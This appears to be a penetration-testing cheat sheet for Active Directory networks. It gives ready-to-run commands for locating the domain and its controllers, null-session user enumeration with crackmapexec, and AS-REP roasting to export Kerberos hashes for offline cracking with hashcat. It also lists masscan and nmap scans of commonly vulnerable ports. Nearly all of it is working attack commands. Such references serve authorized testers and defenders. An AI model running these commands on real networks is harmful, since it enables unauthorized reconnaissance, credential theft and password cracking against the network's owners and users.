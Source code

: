 ## Find Active Directory domain name:

`nslookup server | grep Server | grep -E -o '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}' | nslookup | grep -o '[^ ]*$' | cut -d '.' -f 2- | sed -r 's/\.$//'`

## Find domain controllers

```
domain=$(nslookup server | grep Server | grep -E -o '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}' | nslookup | grep -o '[^ ]*$' | cut -d '.' -f 2- | sed -r 's/\.$//');nslookup -type=srv _ldap._tcp."$domain" | grep $domain | grep -o '[^ ]*$' | sed -r 's/\.$//' | tr ' ' '\n' | tee domain-controllers.txt
```
## Null session enumeration

`crackmapexec smb [network address or file] -u '' -p '' --users`

If you detect null session enumeration and you can dump a list of all users, or you have any user names, the proceed to the next section:

## Target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking

Note: This attack normally requires you have valid domain usernames to test.

```
cme ldap [DC IP]-u users.txt -p '' --asreproast asreproast-output.txt
```

Crack any discovered hashes:

```
hashcat -m 18200 asreproast-output.txt wordlist
```

## Port scans / Service Enumeration

Common UDP ports: `53,69,111,161,500,623,2049`

Common TCP ports: `21,22,23,25,53,80,81,88,110,111,123,137-139,161,389,443,445,500,512,513,548,623-624,1099,1241,1433-1434,1521,2049,2483-2484,3268,3269,3306,3389,4333,4786,4848,5432,5800,5900,5901,6000,6001,7001,8000,8080,8181,8443,10000,16992-16993,27017,32764`

### Very fast: Masscan can quickly scan a large network. Common masscan options

`sudo masscan -p <ports> --open --banners -oG <outputfile> -iL <inputfile>`

### Nmap scan of common vulnerable ports

`mkdir scans && sudo nmap -sS -sV -p 21,22,23,25,53,80,81,88,110,111,123,137-139,161,389,443,445,500,512,513,548,623-624,1099,1241,1433-1434,1521,2049,2483-2484,3268,3269,3306,3389,4333,4786,4848,5432,5800,5900,5901,5985,5986,6000,6001,7001,8000,8080,8181,8443,10000,16992-16993,27017,32764 --open -oA scans/nmap-tcp -iL targets.txt`
